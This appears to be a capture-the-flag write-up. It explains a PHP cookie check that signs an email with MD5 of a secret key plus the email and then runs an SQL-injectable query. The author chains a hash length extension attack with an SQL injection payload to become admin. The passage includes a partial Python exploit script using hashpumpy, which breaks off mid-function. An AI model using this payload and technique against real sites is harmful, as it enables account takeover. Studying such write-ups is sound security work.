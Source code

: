 
Cookie value passed to function as the cookie variable. Then cookie string is reversed using strrev($cookie) after then it is decoded by base64 and stored to `$cd`.


If string($cd) is <= 32 return false else last 32 character of `$cd` contains hash and remaining contains `data(email)`.MD5 hash of $secret_cookie_key concatenated with email(`MD5($secret_cookie_key+Email)`) is stored to $rhash.


Then a check is performed if the hash is the same or something has changed with MD5 hash.


If hash is same then email is placed on SQL query and SQL query is executed to get the user and return it. 


There are two things to note.


- Secret key concatenate with user email then MD5 is done.

- SQL query is vulnerable to SQL Injection.

After googling, I came to know that if the secret key is combined with a user-controlled message then it is vulnerable to a length extension attack. This means the attacker can make a valid hash of secret_cookie_key+new_message without knowing the secret_cookie_key(length of secret_cookie_key needed to be known which is not a big deal, we can try all lengths).

Algorithms like MD5, SHA-1, and SHA-2 that are based on the Merkle–Damgård construction are susceptible to this kind of attack.

So, the idea was to make a valid hash of message with SQL Injection(secret_cookie_key+new_message where new_message is containing `" or 'role'="admin"-- -` in the end) to log in as admin by doing SQL Injection.

The key length was 56.


The script that I used for the solution:

```python
#!/usr/bin/env python2
from pwn import *
import base64
import httplib, urllib
from hashpumpy import hashpump
import ssl

ssl._create_default_https_context = ssl._create_unverified_context
taglen = 256 / 8
tag = None
orig_msg = None
#append_msg = '" or `role`="admin" -- -'
append_msg = '"' # There will be an SQL error

tag = "fc52f628914d6bfe0a83e40ec25e5dc1"
orig_msg = "abc@gmail.com"

print("original tag was: \n" + hexdump(tag))
print("original message was: " + orig_msg)


def perform_hlext(tag, orig_msg, append_msg, keylen):
    """take the tag and the orig_msg, perform hash length extension
    for the given key length.
    returns [tag][message]"""
    newdgst, newmsg = hashpump(tag,
                               orig_msg,
                               append_msg,
                               keylen)
    log.info("hashpump returned: \ndigest: {}\nmsg: {}"
```